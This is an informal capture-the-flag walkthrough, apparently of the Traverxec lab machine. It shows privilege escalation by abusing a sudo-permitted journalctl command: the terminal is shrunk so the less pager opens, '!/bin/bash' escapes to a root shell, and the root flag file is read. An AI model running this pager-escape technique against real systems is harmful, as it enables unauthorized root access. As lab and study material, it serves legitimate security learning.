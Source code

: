 ```
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```
okey let look at what we found here.
1. I tired to `sudo -l` with `Notonly4me` it didnt work.
2. `server-stats.sh` which we have read/write/execute permission
3. the script is execute `journalctl` using `sudo`

I googling `journalctl` on [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/) and yes we can use it for priv esc.
`/usr/bin/sudo /usr/bin/journalctl` and ofc it didnt work... so I gusse I need to modify the script and run the script instead. BUT NOPE we can not modify the file!!! T^T but how can we run the script without the system even asking us about a password? and why do it ask us for password when we ran ``/usr/bin/sudo /usr/bin/journalctl` ...

then it hit me. maybe david is allow to run `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` but not what we executed before?
```console
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Fri 2020-11-13 17:31:42 EST, end at Fri 2020-11-13 19:32:54 EST. --
Nov 13 17:31:44 traverxec systemd[1]: Starting nostromo nhttpd server...
Nov 13 17:31:44 traverxec nhttpd[422]: started
Nov 13 17:31:44 traverxec nhttpd[422]: max. file descriptors = 1040 (cur) / 1040 (max)
Nov 13 17:31:44 traverxec systemd[1]: Started nostromo nhttpd server.
david@traverxec:~/bin$ 
```
back to GTFObins "This invokes the default pager, which is likely to be `less`, other functions may apply." less will only be use when the termial is smaller than the output. I hade my terminal full size which is why less didnt triggered when I execute the command.


now let make it smaller!
```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Fri 2020-11-13 17:31:42 EST, end at Fri 2020-11-13 19:34:12 EST. --
Nov 13 17:31:44 traverxec systemd[1]: Starting nostromo nhttpd server...
Nov 13 17:31:44 traverxec nhttpd[422]: started
!/bin/bash
root@traverxec:/home/david/bin# cat /root/root.txt
```
boom we got root!!